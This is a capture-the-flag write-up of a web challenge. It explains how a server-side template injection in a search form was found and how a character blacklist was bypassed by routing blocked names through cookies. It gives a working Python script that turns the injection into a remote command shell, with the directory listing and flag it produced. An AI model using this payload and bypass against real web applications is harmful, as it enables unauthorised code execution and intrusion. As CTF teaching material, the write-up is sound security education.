 # http-for-pros (web, 200p, 43 solved)

## Description

```  
You have all the hints you need... Get the flag!

Flag format: CTF{sha256}  
```

In the task we get a webpage with some search form.

## Task analysis

It seems the form either echos our input, or in some cases sends back some
WAF-like error that certain character was blacklisted.  
It took us a while to notice that there is a template injection issue.  
If we send `{{3*3}}` we get back `9`.

## Template injection

Now also the whole blacklist makes sense!  
We need to bypass the blacklist and get RCE.

One of more problematic blocks is `_` and also `__class__`.

But there are some tricks we can use, for example we can use `request.args` to
access GET parameters, and we can use `[]` instead of `.` so for example
`request[request.args.x]` would do `request.__class__` of GET parameter
`x=__class__`.

It so happens that GET parameters were also subjected to blacklist.  
But cookies were not!

So following the same idea, we can do `request[request.cookies['a']]`, set
cookie `a=__class__` and we confirm it works.

### Gadget chain

Now we just need some decent gadget chain from `request`.  
First one we found was
`request._get_file_stream.im_func.func_globals['__builtins__']['__import__']`,
so we can craft it:

```python  
while True:  
   cmd = raw_input("sh> ")  
   params = {  
       "content": "{{request[request.cookies['a']][request.cookies['b']][request.cookies['c']][request.cookies['d']][request.cookies['e']][request.cookies['f']]('subprocess')[request.cookies['g']](request.cookies['h'],shell=True)}}"  
   }  
   cookies = {  
       "a": "__class__",  
       "b": "_get_file_stream",  
       "c": "im_func",  
       "d": "func_globals",  
       "e": "__builtins__",  
       "f": "__import__",  
       "g": "check_output",  
       "h": cmd  
   }  
   r = get("http://35.198.103.37:31612/", params=params, cookies=cookies)  
   print(r.text)  
```

And we get a nice shell.  
From this we can just do `ls -la` and then `cat flag` to get:

```  
sh> ls -la  
total 32  
drwxr-xr-x 1 root root 4096 Dec  1 08:56 .  
drwxr-xr-x 1 root root 4096 Dec  1 08:56 ..  
-rw-r--r-- 1 dctf dctf  220 Aug 31  2015 .bash_logout  
-rw-r--r-- 1 dctf dctf 3771 Aug 31  2015 .bashrc  
-rw-r--r-- 1 dctf dctf  655 Jul 12  2019 .profile  
-rwxr-xr-x 1 root root 2699 Dec  1 08:55 app.py  
-rwxr-xr-x 1 root root   69 Dec  1 08:55 flag  
drwxr-xr-x 1 root root 4096 Dec  1 08:55 templates

sh> cat flag  
CTF{75df3454a132fcdd37d94882e343c6a23e961ed70f8dd88195345aa874c63e63}  
```  

Original writeup
(https://github.com/TFNS/writeups/tree/master/2020-12-05-DefCampCTF/pros).